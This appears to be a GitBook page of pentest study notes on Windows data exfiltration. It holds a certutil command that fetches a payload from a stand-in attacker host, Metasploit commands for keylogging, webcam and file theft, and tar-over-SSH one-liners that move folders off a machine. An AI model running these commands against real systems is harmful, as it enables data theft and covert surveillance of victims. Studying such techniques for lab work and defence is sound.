 ```yaml
---
icon: windows
---
```


# Windows

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

## How to use Data Exfiltration

There are three primary use case scenarios of data exfiltration, including:

1. Exfiltrate data
2. Command and control communications.
3. Tunneling

Traditional Data Exfiltration

<figure><img src="../../../../.gitbook/assets/0c3438995ccff35a5589b9abd3703b14.png" alt=""><figcaption></figcaption></figure>

C2 Communications

<figure><img src="../../../../.gitbook/assets/49ad248f2506a5a749dbb70732c32072.png" alt=""><figcaption></figcaption></figure>

Tunneling

<figure><img src="../../../../.gitbook/assets/b4c99b2aba13eac24379fee2d20ffbf6.png" alt=""><figcaption></figcaption></figure>

## Python web server

Attacker computer

```bash
python -m SimpleHTTPServer 80 : use port that is not used  
```

```bash
python3 -m http.Server 80
```

## Certutil  Download from target (Win Only)

```bash
certutil -urlcache -f http://attackeraddress/filename <fileNameWhenDownloaded>    
```

| Part                              | Purpose                                               |
| --------------------------------- | ----------------------------------------------------- |
| `certutil`                        | Built-in Windows utility for cert management (LOLBIN) |
| `-urlcache`                       | Uses the URL cache functionality to fetch the file    |
| `-f`                              | Force download even if cached                         |
| `http://attackeraddress/filename` | Remote URL of the payload or file                     |
| `<fileNameWhenDownloaded>`        | Name to save the file as on disk                      |

{% hint style="warning" %}
imporant when we dont have a meterpreter seassion and we need to download or upload files using the system unitilitys services.
{% endhint %}

## Metasploit commands

| Command                          | Function                                                 |
| -------------------------------- | -------------------------------------------------------- |
| `download /path/to/file`         | Downloads a specific file from the target                |
| `upload /local/file`             | Uploads a file to the target                             |
| `search -f *.docx`               | Finds files (e.g., `*.docx`, `*.xlsx`, `passwords.txt`)  |
| `cat /path/to/file`              | View file content inline                                 |
| `screenshot`                     | Take a screenshot of the user’s desktop                  |
| `keyscan_start` / `keyscan_dump` | Start and dump keystrokes                                |
| `record_mic` / `webcam_snap`     | Record audio or take webcam shots (if permissions allow) |

## SSH Exfiltration

Default

```bash
tar cf - task5/ | ssh user@ip "cd /tmp/; tar xpf -"
```

Custom Port

```bash
tar cf - FolderName/ | ssh -p 2222  user@ip "cd /tmp/; tar xpf -"
```

#### Step-by-step explanation:

1. **`tar cf - task5/`**
   * `tar` is used for creating and extracting archives.
   * `c` → **create** a new archive.
   * `f -` → output to **stdout** (the `-` means “write to standard output” instead of a file).
   * `task5/` → the folder you want to archive.
   * **Result:** a tarball of `task5/` is sent to stdout.
2. **`|` (pipe)**
   * This takes the stdout from the `tar` command (the archive data) and sends it as stdin to the next command.
3. **`ssh thm@jump.thm.com "cd /tmp/; tar xpf -"`**
   * `ssh thm@jump.thm.com` → connects to the remote host `jump.thm.com` as user `thm`.
   * `"cd /tmp/; tar xpf -"` → this is the command executed on the remote machine:
     * `cd /tmp/` → change directory to `/tmp/`.
     * `tar xpf -` → extract the archive received from stdin (`-` means stdin):
       * `x` → extract.
       * `p` → **preserve permissions**.
       * `f -` → read archive from stdin.

## &#x20;Icmpdoor

{% embed url="https://github.com/krabelize/icmpdoor" %}

<figure><img src="../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

## Dns Exfiltration

## HTTP Exfiltration

{% embed url="https://www.youtube.com/watch?t=1018s&v=Cu8RbPo8gm0" %}
